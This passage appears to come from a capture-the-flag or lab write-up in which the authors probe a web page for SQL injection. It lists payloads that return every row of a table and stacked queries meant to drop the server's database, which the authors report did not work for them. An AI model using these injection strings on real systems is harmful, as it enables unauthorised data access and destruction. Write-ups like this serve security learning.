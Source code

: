 The injection seems pretty limited there, the hacker cannot fetch the names of the tables used by the SQL user.

 - `1' || true;#` - This will return all elements from the table.
 - `1'; SHOW TABLES;#` - The result is not shown in the webpage, but a command like

```mysql
1';
DROP DATABASE (SELECT DATABASE());#
```

or
```mysql
1';
SET @name = (SELECT DATABASE());
SELECT @name;
DROP DATABASE @name;#
```

(better written) should be able to disrupt databases on the server. We've tried variations of that for hours without any success.

![sqli-all.png](/images/sqli-all.png)
![sqli-fail.png](/images/sqli-fail.png)
